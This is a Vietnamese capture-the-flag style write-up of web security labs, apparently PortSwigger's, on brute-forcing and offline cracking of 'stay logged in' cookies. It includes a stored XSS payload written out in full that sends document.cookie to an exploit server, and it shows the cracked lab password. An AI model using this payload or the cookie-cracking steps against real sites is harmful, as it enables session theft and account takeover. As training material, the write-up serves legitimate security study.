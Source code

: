 Vậy password được lưu trữ dưới dạng `base64(username:md5(password))`

Giờ gửi qua Intruder và brute-force mật khẩu với username `carlos`
![image.png](https://hackmd.io/_uploads/Hk0O1mL7T.png)
![image.png](https://hackmd.io/_uploads/ryrkAGIQT.png)
![image.png](https://hackmd.io/_uploads/rJq-RMIX6.png)

Tìm thấy cookie đã được mã hóa, solved lab
![image.png](https://hackmd.io/_uploads/S1Rs-XIm6.png)
Done!

# Lab 11: Offline password cracking
![image.png](https://hackmd.io/_uploads/HJR9f1Ima.png)
- Lab này lưu trữ hàm băm mật khẩu trong cookie và chứa lỗ hổng XSS trong chức năng bình luận. 
- Mục tiêu lab: login với `carlos` và xóa tài khoản này

Tương tự lab trên, cookie được mã hóa dạng `base64(username:md5(password))`
![image.png](https://hackmd.io/_uploads/H1XN-OI76.png)
![image.png](https://hackmd.io/_uploads/H1trW_Imp.png)

Tiếp theo, vào phần comment để kiểm tra
![image.png](https://hackmd.io/_uploads/BJK57_UQp.png)

Lỗ hổng XSS
![image.png](https://hackmd.io/_uploads/SkqiQOU76.png)

Payload XSS sau để khai thác
```js
<script>document.location='https://exploit-0a3300e8031720ed80210c9301ea0058.exploit-server.net/exploit'+document.cookie</script>

```
![image.png](https://hackmd.io/_uploads/BkNzLuLXp.png)

Chọn access log để xem nhật ký truy cập
![image.png](https://hackmd.io/_uploads/Bk-uLu8mp.png)
Ta thấy có 1 `stay logged in` đã được mã hóa

Decode thì được đúng dạng cookie
![image.png](https://hackmd.io/_uploads/B1qRLOIm6.png)
![image.png](https://hackmd.io/_uploads/SyZtDu8mT.png)
Vậy password là `onceuponatime`

Tiếp theo, login và delete account `carlos`
![image.png](https://hackmd.io/_uploads/S1NbuuLm6.png)
Done!
